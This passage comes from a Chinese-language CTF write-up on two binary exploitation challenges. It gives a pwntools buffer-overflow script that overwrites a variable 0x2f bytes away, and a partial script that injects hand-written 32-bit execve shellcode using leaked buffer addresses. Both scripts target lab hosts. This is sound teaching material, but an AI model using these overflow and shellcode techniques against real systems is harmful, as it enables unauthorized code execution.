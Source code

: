 ```c
  return 0;
}
```

可以看到 v4 变量和 v8 变量差了 0x2f 个字节，那么覆盖变量即可

题目啥保护都没开，说实话输入一堆 Y 就行，写 ret2text 也行

解题脚本如下：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

debug = 2
context(arch='amd64', endian='el', os='linux')
context.log_level = 'debug'
if debug == 1:
    p = process(['./pwn'])
else:
    p = remote('node1.binlep.top', 28073)

pd = 'a' * 0x2f
pd += 'Y'
p.sendlineafter('H31lo JuNe~\n', pd)
p.interactive()
```

### 3steps

TUCTF 2019 中原题（3step），改了改文件里的字符串，但是文件名没咋改

按理来说是能搜到的，但是没人搜

本质上就是一个手写 32 位的 shellcode 题，挺简单的，也有地址啥的

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

debug = 2
context(log_level="debug", arch="i386", os="linux")
if debug == 1:
    p = process('./chall')
else:
    p = remote('node1.binlep.top', 28040)

# gdb.attach(p, "b *$rebase(0x12B2)\nc")
p.recvuntil('Try out some tricks\n')
addr_buf1 = int(p.recv(10), 16)
p.recv(1)
addr_buf = int(p.recv(10), 16)
success('addr_buf1 = ' + hex(addr_buf1))
success('addr_buf  = ' + hex(addr_buf))
pd = asm('''
         xor edx, edx;
         push edx;
         xor ecx, ecx;
         mov eax, 0x0B;
         mov ebx, {}
         jmp ebx;
         '''.format(hex(addr_buf))
         )
info(len(pd))
p.sendafter('Step 1: ', pd)
```